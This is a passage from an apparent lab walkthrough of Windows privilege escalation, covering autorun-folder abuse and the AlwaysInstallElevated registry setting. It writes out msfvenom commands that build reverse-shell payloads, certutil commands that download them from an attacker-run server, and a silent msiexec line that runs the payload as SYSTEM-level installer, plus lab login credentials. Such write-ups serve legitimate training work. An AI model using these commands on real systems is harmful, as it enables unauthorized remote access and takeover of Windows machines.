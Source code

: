 ## Exploit

Open msfconsole and start a handler and set payload windows/meterpreter/reverse_tcp.

# Create payload

msfvenom -p windows/reverse_tcp LHOST=tun0 LPORT=4444 -f exe > program.exe

Move to Folder `C:\Program Files\Autorun Program` and copy the payload in there.

```
certutil.exe -urlcache -f http://$IP:8000/program.exe program.exe
```

**NOTE : Log off and log in as `TCM`:`Hacker123`**

We get the shell! . And we are in as `TCM-PC\TCM`.

# Task 4 - Registry Escalation (AlwaysInstallElevated)

## Steps to check if the functionality is turned on

AlwaysInstallElevated is a functionality that allows users to run an msi file ith elevated privileges.


1. Type `reg query HKLM\Software\Policies\Microsoft\Windows\Installer`

2. AlwaysInstallElevated value must be 1.

3. Type `reg query HKCU\Software\Policies\Microsoft\Windows\Installer`

4. AlwaysInstallElevated value must be 1.

## Exploit

Open msfconsole and start a handler and set payload windows/meterpreter/reverse_tcp.

# Create payload

msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f msi > setup.msi

Upload it to the machine in C:\Temp location

```
certutil.exe -urlcache -f http://10.8.107.21:8000/setup.msi setup.msi
```

We are using `msiexec` here to execute the msi file. msiexec is a sysinternal for installing in command line.

`msiexec /quiet /qn /i C:\Temp\setup.msi` gives us the shell!!!

**NOTE : Options /quiet quiet-mode, /qn- No UI interaction, /i- normal installation**
